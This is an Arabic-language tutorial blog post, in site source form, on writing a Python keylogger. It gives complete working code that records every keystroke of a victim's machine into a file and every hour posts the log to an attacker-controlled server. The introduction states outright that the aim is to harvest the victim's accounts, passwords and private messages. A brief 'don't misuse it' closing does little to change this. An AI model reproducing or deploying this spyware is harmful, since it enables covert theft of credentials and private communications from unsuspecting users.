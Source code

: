 ```yaml
---

title: "Keylogger with Python in Arabic"
date: 2025-03-24
authors: "Farouk"
layout: post
categories: Python_for_Hackers
tags: [Python, Keylogger, Security, PenetrationTesting, Hacker]
direction: rtl
image:
#  path: /images/HTB/e143-keylogger.gif
  alt: image alternative tex
description: ؟ وكيف بشتغل؟ وكيف فينا نساويه بأيدنا؟ Keylogger شو هو ال
---
```

<script>
document.addEventListener("DOMContentLoaded", function () {
    // البحث عن العنصر الذي يحتوي على "By"
    let authorElement = document.querySelector("span em");

    // التأكد أن العنصر موجود
    if (authorElement) {
        authorElement.textContent = "Farouk"; // وضع الاسم داخل الوسم <em>
    }
});
</script>

<h2 id="كيف-تكتب-keylogger-بسيط-بالـ-python" dir="rtl"><span class="me-2"><strong>كيف تكتب Keylogger بسيط بالـ Python؟</strong></span><a href="#كيف-تكتب-keylogger-بسيط-بالـ-python" class="anchor text-muted"></a></h2>

<h3 id="-المقدمة" dir="rtl"><span class="me-2"><strong>💡 المقدمة</strong></span><a href="#-المقدمة" class="anchor text-muted"></a></h3>

<p dir="rtl">اول شي خلونا نفهم شو يعني <strong>Keylogger</strong> , ال <strong>Keylogger</strong> هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا <strong>Keylogger بسيط بلغة Python</strong> ونتعرف على آلية عمله بالتفصيل.</p>

<p dir="rtl">📌 <strong>رح يغطي هذا الدرس:</strong></p>
<ul dir="rtl">
<li> كيف بتسجل ضغطات الكيبورد باستخدام مكتبة pynput </li>
<li> تخزين هالبيانات ضمن ملف </li>
<li> كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا </li>
<li> تشغيل برنامجنا  <strong>كبرنامج مستمر</strong> يضل شغال بال <strong>Background</strong> </li>
</ul>

---

<h3 id="-الكود-كامل-keylogger-بالبايثون" dir='rtl'><span class="me-2"><strong> الكود كامل: Keylogger بالبايثون</strong></span><a href="#-الكود-كامل-keylogger-بالبايثون" class="anchor text-muted"></a></h3>

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # استبدله برابط السيرفر الخاص بك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")

        # التعامل مع المفاتيح الخاصة
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = ''  # تجاهل مفاتيح التعديل

        # حفظ المفاتيح في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    إرسال البيانات المخزنة إلى السيرفر كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

<h3 id="تحليل-الكود" dir='rtl'><span class="me-2"><strong>تحليل الكود</strong></span><a href="#تحليل-الكود" class="anchor text-muted"></a></h3>

<p dir="rtl">📌 <strong>1. تسجيل ضغطات المفاتيح:</strong></p>
<ul dir="rtl">
  <li>مكتبة الpynput بتساعدني لتسجيل كل <strong>ضغطة زر</strong> عالكيبورد وتحليلها.</li>
  <li>المفاتيح الخاصة (مثل Shift و Enter) منتعامل معها بطريقة مناسبة.</li>
  <li><strong>منحفظ كل ضغطة عالكيبورد</strong> بملف log.txt.</li>
</ul>

<p dir="rtl">📌 <strong>2. إرسال البيانات إلى سيرفر:</strong></p>
<ul dir="rtl">
  <li>منقرأ محتوى ملف log.txt كل <strong>ساعة</strong>.</li>
  <li>إذا كان عندي بيانات، فبيبعتلي ياها ل  <strong>السيرفر</strong> عبر requests.post().</li>
  <li>بعد ما يتم الارسال بقلو <strong>يمسحلي الملف</strong> حتى مايصير عندي تكرار بالإرسال.</li>
</ul>

<p dir="rtl">📌 <strong>3. تشغيل الكي لوجر بالخلفية:</strong></p>
<ul dir="rtl">
  <li>استخدمت threading.Timer حتى يضل عم يرسل البيانات بشكل دوري.</li>
  <li>Listener بضل شغال حتى حدا <strong>يوقف البرنامج يدويًا</strong>.</li>
</ul>

<hr />


---

<h3 id="الخاتمة" dir="rtl"><span class="me-2"><strong>الخاتمة</strong></span><a href="#الخاتمة" class="anchor text-muted"></a></h3>

<p dir='rtl'>هيك صار عندك <strong>Keylogger بسيط وفعال</strong> وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.</p>

<p dir='rtl'><strong>وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟🤔</strong></p>


---

<script src="https://giscus.app/client.js"
        data-repo="Farouk9423/farouk9423.github.io"
        data-repo-id="R_kgDOONQTbg"
        data-category="General"
        data-category-id="DIC_kwDOONQTbs4CqhWL"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="preferred_color_scheme"
        data-lang="ar"
        crossorigin="anonymous"
        async>
</script>